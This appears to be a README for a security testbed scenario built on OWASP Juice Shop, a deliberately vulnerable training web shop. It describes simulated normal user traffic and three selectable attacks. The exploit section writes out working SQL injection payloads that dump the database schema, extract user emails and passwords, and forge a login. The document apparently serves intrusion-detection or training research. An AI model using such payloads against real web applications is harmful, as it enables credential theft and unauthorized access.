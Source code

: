 # Juice shop 

## Overview:
[OWASP Web shop application](https://owasp.org/www-project-juice-shop/) with multiple vulnerabilities.

## Victim:
Modern web application with multiple vulnerabilities, run at port 3000. Using provided docker for deployment.

## Normal:
User actions include:
        register -> new account for user
        login    -> login user
        shopping -> put random item in basket
                 -> leave feedback to product
        complain -> upload complaint file
        checkout -> set address, delivery method and payment details
User first registers, then logs in and chooses random between shopping, complaining and completing the checkout.

## Exploit:
Running debian10 with selenium user.
Multiple attacks possible (use as 4th parameter following name):
* SQLInjectionSchema
* SQLInjectionCred
* SQLInjectionUser

### SQL-Injection - SQL Schema
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--

### SQL-Injection - Credentials
Run malicious query at /rest/products/search:

        qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--

### SQL-Injection - Non Existing User Login
Run malicious query as email while login:

        ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
